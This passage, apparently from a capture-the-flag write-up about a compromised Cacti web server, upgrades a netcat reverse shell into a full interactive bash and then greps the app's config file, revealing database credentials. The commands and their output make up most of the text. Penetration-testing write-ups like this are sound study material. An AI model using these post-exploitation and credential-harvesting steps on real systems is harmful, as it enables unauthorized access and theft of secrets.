 Ideally, we should first stabilize our shell. Python is not installed on the target, thus, we can't use the `pty` module to achieve that. However, we can use `script`:

```bash
# shell stabilization using script
www-data@50bca5e748b0:/var/www/html$ which script
which script
/usr/bin/script
www-data@50bca5e748b0:/var/www/html$ script -O /dev/null -q /bin/bash
script -O /dev/null -q /bin/bash
$ bash
bash
www-data@50bca5e748b0:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 1337

┌──(kali㉿CSpanias)-[~]
└─$ stty raw -echo; fg
nc -lvnp 1337

www-data@50bca5e748b0:/var/www/html$
```

We now need to get the values for the `rows` and `cols` variables from our attack host:

```bash
$ stty -a
speed 38400 baud; rows 51; columns 209; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```

And finally, we need to set the same values on our target:

```bash
www-data@50bca5e748b0:/var/www/html$ stty rows 51 cols 209
www-data@50bca5e748b0:/var/www/html$ export TERM=xterm
```

We now have our initial foothold with a proper bash shell! Since this is a web app server, we should probably check for database configuration files:

```bash
# searching for configuration files
www-data@50bca5e748b0:/var/www/html$ find . | grep config
./include/config.php
./docs/images/graphs-edit-nontemplate-configuration.png
./docs/apache_template_config.html

# searching for database-related strings within the configuration file
www-data@50bca5e748b0:/var/www/html$ grep database include/config.php
 * Make sure these values reflect your actual database/host/user/password
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
```